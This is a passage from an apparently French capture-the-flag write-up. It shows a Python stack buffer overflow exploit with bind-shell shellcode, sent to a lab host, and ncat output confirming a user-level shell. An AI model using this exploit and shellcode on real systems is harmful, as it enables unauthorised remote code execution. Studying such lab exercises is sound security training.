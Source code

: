 ```python
    b"\x89\x44\x24\x04"         # movl          %eax,0x4(%esp,1)
    b"\x43"                             # incl          %ebx
    b"\x43"                             # incl          %ebx
    b"\xb0\x66"                 # movb          $0x66,%al
    b"\xcd\x80"                 # int           $0x80
    b"\x83\xc4\x0c"                     # addl          $0xc,%esp
    b"\x52"                             # pushl %edx
    b"\x52"                             # pushl %edx
    b"\x43"                             # incl          %ebx
    b"\xb0\x66"                 # movb          $0x66,%al
    b"\xcd\x80"                 # int           $0x80
    b"\x93"                             # xchgl %eax,%ebx
    b"\x89\xd1"                 # movl          %edx,%ecx
    b"\xb0\x3f"                 # movb          $0x3f,%al
    b"\xcd\x80"                 # int           $0x80
    b"\x41"                             # incl          %ecx
    b"\x80\xf9\x03"                     # cmpb          $0x3,%cl
    b"\x75\xf6"                 # jnz           <shellcode+0x40>
    b"\x52"                             # pushl %edx
    b"\x68\x6e\x2f\x73\x68"             # pushl $0x68732f6e
    b"\x68\x2f\x2f\x62\x69"             # pushl $0x69622f2f
    b"\x89\xe3"                 # movl          %esp,%ebx
    b"\x52"                             # pushl %edx
    b"\x53"                             # pushl %ebx
    b"\x89\xe1"                 # movl          %esp,%ecx
    b"\xb0\x0b"                 # movb          $0xb,%al
    b"\xcd\x80"                 # int           $0x80
)
jmp_esp = 0x0804929a

buffer = b"OVERFLOW " + b"A" * 35 + pack("<I", jmp_esp) + shellcode + b"\n"
sock = socket()
sock.connect(("192.168.56.206", 1337))
sock.send(buffer)
sock.close()
```

L'avantage, c'est que la gestion des connexions dans le binaire se fait avec un `fork` préalable donc on n'a pas à utiliser un shellcode qui le fait.

On obtient notre premier shell.

```console
$ ncat 192.168.56.206 5074 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.206:5074.
id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
uname -a
Linux Overflow 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
```
